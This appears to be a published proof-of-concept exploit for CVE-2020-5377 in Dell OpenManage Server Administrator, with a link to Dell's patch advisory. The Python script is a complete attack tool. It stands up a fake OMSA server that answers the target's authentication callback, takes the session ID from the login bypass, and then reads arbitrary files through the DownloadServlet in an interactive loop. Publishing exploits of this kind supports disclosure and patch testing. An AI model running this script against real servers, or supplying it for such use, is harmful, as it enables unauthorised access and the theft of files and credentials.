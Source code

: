 POC
---

    # This is a proof of concept for CVE-2020-5377, an arbitrary file read in Dell OpenManage Administrator
    # Proof of concept written by: David Yesland @daveysec with Rhino Security Labs
    # More information can be found here:
    # A patch for this issue can be found here:
    # https://www.dell.com/support/article/en-us/sln322304/dsa-2020-172-dell-emc-openmanage-server-administrator-omsa-path-traversal-vulnerability

    from xml.sax.saxutils import escape
    import BaseHTTPServer
    import requests
    import thread
    import ssl
    import sys
    import re
    import os

    import urllib3
    urllib3.disable_warnings()

    if len(sys.argv) < 3:
        print 'Usage python auth_bypass.py <yourIP> <targetIP>:<targetPort>'
        exit()

    #This XML to imitate a Dell OMSA remote system comes from https://www.exploit-db.com/exploits/39909
    #Also check out https://github.com/hantwister/FakeDellOM
    class MyHandler(BaseHTTPServer.BaseHTTPRequestHandler):
        def do_POST(s):
            data = ''
            content_len = int(s.headers.getheader('content-length', 0))
            post_body = s.rfile.read(content_len)
            s.send_response(200)
            s.send_header("Content-type", "application/soap+xml;charset=UTF-8")
            s.end_headers()
            if "__00omacmd=getuserrightsonly" in post_body:
                data = escape("<SMStatus>0</SMStatus><UserRightsMask>458759</UserRightsMask>")
            if "__00omacmd=getaboutinfo " in post_body:
                data = escape("<ProductVersion>6.0.3</ProductVersion>")
            if data:
                requid = re.findall('>uuid:(.*?)<',post_body)[0]
                s.wfile.write('''<?xml version="1.0" encoding="UTF-8"?>
                                <s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsman="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:n1="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/DCIM_OEM_DataAccessModule">
                                  <s:Header>
                                    <wsa:To>http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</wsa:To>
                                    <wsa:RelatesTo>uuid:'''+requid+'''</wsa:RelatesTo>
                                    <wsa:MessageID>0d70cce2-05b9-45bb-b219-4fb81efba639</wsa:MessageID>
                                  </s:Header>
                                  <s:Body>
                                    <n1:SendCmd_OUTPUT>
                                      <n1:ResultCode>0</n1:ResultCode>
                                      <n1:ReturnValue>'''+data+'''</n1:ReturnValue>
                                    </n1:SendCmd_OUTPUT>
                                  </s:Body>
                                </s:Envelope>''')

            else:
                s.wfile.write('''<?xml version="1.0" encoding="UTF-8"?><s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:wsmid="http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd"><s:Header/><s:Body><wsmid:IdentifyResponse><wsmid:ProtocolVersion>http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd</wsmid:ProtocolVersion><wsmid:ProductVendor>Fake Dell Open Manage Server Node</wsmid:ProductVendor><wsmid:ProductVersion>1.0</wsmid:ProductVersion></wsmid:IdentifyResponse></s:Body></s:Envelope>''')

        def log_message(self, format, *args):
            return

    createdCert = False
    if not os.path.isfile('./server.pem'):
        print '[-] No server.pem certifcate file found. Generating one...'
        os.system('openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes -subj "/C=NO/ST=NONE/L=NONE/O=NONE/OU=NONE/CN=NONE.com"')
        createdCert = True

    def startServer():
        server_class = BaseHTTPServer.HTTPServer
        httpd = httpd = server_class(('0.0.0.0', 443), MyHandler)
        httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
        httpd.serve_forever()

    thread.start_new_thread(startServer,())

    myIP = sys.argv[1]
    target = sys.argv[2]

    def bypassAuth():
        values = {}
        url = "https://{}/LoginServlet?flag=true&managedws=false".format(target)
        data = {"manuallogin": "true", "targetmachine": myIP, "user": "VULNERABILITY:CVE-2020-5377", "password": "plz", "application": "omsa", "ignorecertificate": "1"}
        r = requests.post(url, data=data, verify=False, allow_redirects=False)
        cookieheader = r.headers['Set-Cookie']
        sessionid = re.findall('JSESSIONID=(.*?);',cookieheader)
        pathid = re.findall('Path=/(.*?);',cookieheader)
        values['sessionid'] = sessionid[0]
        values['pathid'] = pathid[0]
        return values

    ids = bypassAuth()
    sessionid = ids['sessionid']
    pathid = ids['pathid']

    print "Session: "+sessionid
    print "VID: "+pathid

    def readFile(target,sessid,pathid):
        while True:
            file = raw_input('file > ')
            url = "https://{}/{}/DownloadServlet?help=Certificate&app=oma&vid={}&file={}".format(target,pathid,pathid,file)
            cookies = {"JSESSIONID": sessid}
            r = requests.get(url, cookies=cookies, verify=False)
            print 'Reading contents of {}:\n{}'.format(file,r.content)

    def getPath(path):
        if path.lower().startswith('c:\\'):
            path = path[2:]
            path = path.replace('\\','/')
            return path

    readFile(target,sessionid,pathid)

GIF
---

![<File:OpenManage.gif>](OpenManage.gif "File:OpenManage.gif")